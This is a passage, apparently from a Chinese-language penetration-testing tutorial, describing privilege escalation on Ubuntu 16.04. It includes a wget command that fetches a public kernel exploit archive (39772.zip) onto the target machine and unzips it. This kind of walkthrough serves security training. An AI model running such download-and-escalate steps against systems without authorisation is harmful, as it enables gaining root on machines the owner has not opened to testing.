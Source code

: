 1.  在搜索提升权限的漏洞时，发现 Ubuntu 16.04 存在漏洞：![如何做…](img/image_09_032.jpg)

1.  第一次搜索是为了匹配我们的内核版本和 Ubuntu 操作系统版本。让我们继续在我们想要提升权限的机器上下载它。可以使用以下命令进行下载：

```
      wget https://github.com/offensive-security/exploit-database-      bin-sploits/raw/master/sploits/39772.zip
      unzip 39772.zip

```

输出结果将如下截图所示：

![如何做…](img/image_09_033.jpg)

